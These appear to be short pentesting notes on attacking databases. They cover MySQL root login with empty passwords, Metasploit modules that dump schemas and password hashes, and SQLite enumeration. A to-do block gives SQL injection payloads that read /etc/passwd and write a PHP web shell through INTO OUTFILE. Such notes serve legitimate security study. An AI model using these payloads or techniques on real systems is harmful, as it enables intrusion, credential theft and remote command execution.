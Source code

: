# Exploit a database

You can find a course about [SQL](/_archives/info/databases/sql/index.md) (1️⃣), and another about [NoSQL](/_archives/info/databases/nosql/index.md) (2️⃣) on Memorize. To summarize, the former is used to store data in a predefined format (relational model), while the latter is used by databases that want flexibility, like adding properties only to some users.

> **Common DBMS are**: MySQL 1️⃣, Microsoft SQL  Server (MSSQL) 1️⃣, MongoDB 2️⃣, GraphQL 2️⃣, PostgresSQL 1️⃣.<br>
> **Other well-known DBMS**: MariaDB 1️⃣, SQLite 1️⃣, Redis 1️⃣, and Oracle 1️⃣.

<hr class="sep-both">

## Random notes (SQL)

<div class="row row-cols-md-2"><div>

* `service xxx status`: check if a service is enabled. 
  * `mysql`
  * `postgresql`
  * `...`

<span></span>

* `mysql -u root -p -h <ip>`: login as root to the database at `<ip>`
  * Use `mysql -u root -p` for a local database.
  * Try an empty password, as this is the default password for root.
  * Usually use the port **3306**
  * `sudo apt install default-mysql-client`

<span></span>

* In Metasploit
  * `auxiliary/scanner/mysql/mysql_schemadump`: dump cols+tables
  * `auxiliary/scanner/mysql/mysql_hashdump`: dump users+hash
  * `mysql_sql`: send SQL queries

<span></span>

* Script `mysql-enum` with nmap
</div><div>

Privilege Escalation

* [MySQL user-defined functions](https://redteamnation.com/mysql-user-defined-functions/).

Inside the SQL console, you may use

* `source <sql>`: in MySQL console, import a SQL file.

Note that even if you can insert a path, you should start the SQL console inside the folder with the SQL file, and only enter the filename. This is because, if the file is importing data from other files, it is less likely to still work if the statements are executed from another folder than the one with the script.

* `DESCRIBE <table>`: see the structure of `<table>`
</div></div>

<hr class="sep-both">

## Random notes (SQLite)

<div class="row row-cols-md-2"><div>

* `users.db`: an SQLite database

* `file users.db`: find the version of SQLite

* `sqlite3 users.db`: load the SQLite database
</div><div>

* List tables 🧊: `.tables`

* List columns 🫕: `PRAGMA table_info(some_table);`

Then, you can use most of the usual SQL syntax to steal data 💰.
</div></div>

<hr class="sep-both">

## To-do

<div class="row row-cols-md-2"><div>

```
=> file permission (root)
UNION ALL SELECT LOAD_FILE('/etc/passwd')--
UNION SELECT "<? system($_REQUEST['cmd']); ?>" INTO OUTFILE
```

* `select sql from sqlite_master`
</div><div>

...
</div></div>